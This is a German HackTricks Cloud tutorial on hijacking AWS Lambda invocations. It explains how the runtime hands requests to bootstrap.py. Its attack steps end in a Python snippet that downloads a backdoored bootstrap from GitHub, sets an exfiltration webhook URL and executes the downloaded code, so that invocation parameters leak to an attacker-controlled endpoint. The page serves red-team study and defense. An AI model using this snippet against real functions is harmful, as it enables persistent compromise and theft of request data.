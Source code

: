 # AWS - Lambda-Anfragen stehlen

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## Lambda-Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** ist ein Prozess außerhalb des Containers, der **Aufrufe** an den **Init**-Prozess **sendet**.
2. Der Init-Prozess hört auf Port **9001** und exponiert einige interessante Endpunkte:
* **`/2018-06-01/runtime/invocation/next`** – hole das nächste Aufrufereignis
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – gib die Handler-Antwort für den Aufruf zurück
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – gib einen Ausführungsfehler zurück
3. **bootstrap.py** hat eine Schleife, die Aufrufe vom Init-Prozess erhält und den Benutzer-Code aufruft, um sie zu verarbeiten (**`/next`**).
4. Schließlich sendet **bootstrap.py** die **Antwort** an Init.

Beachte, dass bootstrap den Benutzer-Code als Modul lädt, sodass jede Codeausführung, die vom Benutzer-Code durchgeführt wird, tatsächlich in diesem Prozess stattfindet.

## Stehlen von Lambda-Anfragen

Das Ziel dieses Angriffs ist es, den Benutzer-Code dazu zu bringen, einen bösartigen **`bootstrap.py`**-Prozess innerhalb des **`bootstrap.py`**-Prozesses auszuführen, der die verwundbare Anfrage verarbeitet. Auf diese Weise wird der **bösartige Bootstrap**-Prozess beginnen, mit dem Init-Prozess zu **kommunizieren**, um die Anfragen zu bearbeiten, während der **legitime** Bootstrap **gefangen** ist und den bösartigen ausführt, sodass er keine Anfragen an den Init-Prozess stellt.

Dies ist eine einfache Aufgabe, da der Code des Benutzers vom legitimen **`bootstrap.py`**-Prozess ausgeführt wird. Der Angreifer könnte also:

* **Ein gefälschtes Ergebnis des aktuellen Aufrufs an den Init-Prozess senden**, sodass Init denkt, der Bootstrap-Prozess wartet auf weitere Aufrufe.
* Eine Anfrage muss an **`/${invoke-id}/response`** gesendet werden.
* Die invoke-id kann vom Stack des legitimen **`bootstrap.py`**-Prozesses mit dem [**inspect**](https://docs.python.org/3/library/inspect.html) Python-Modul (wie [hier vorgeschlagen](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch_runtime.py)) oder einfach erneut an **`/2018-06-01/runtime/invocation/next`** angefordert werden (wie [hier vorgeschlagen](https://github.com/Djkusik/serverless_persistency_poc/blob/master/gcp/exploit_files/switcher.py)).
* Einen bösartigen **`bootstrap.py`** ausführen, der die nächsten Aufrufe verarbeitet.
* Aus Gründen der Heimlichkeit ist es möglich, die Lambda-Aufrufparameter an ein vom Angreifer kontrolliertes C2 zu senden und die Anfragen dann wie gewohnt zu bearbeiten.
* Für diesen Angriff reicht es aus, den ursprünglichen Code von **`bootstrap.py`** vom System oder [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) zu erhalten, den bösartigen Code hinzuzufügen und ihn aus dem aktuellen Lambda-Aufruf auszuführen.

### Angriffs Schritte

1. Finde eine **RCE**-Schwachstelle.
2. Generiere einen **bösartigen** **Bootstrap** (z.B. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py))
3. **Führe** den bösartigen Bootstrap aus.

Du kannst diese Aktionen einfach ausführen, indem du Folgendes ausführst:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Für weitere Informationen siehe [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda_bootstrap_switcher)

## Referenzen

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
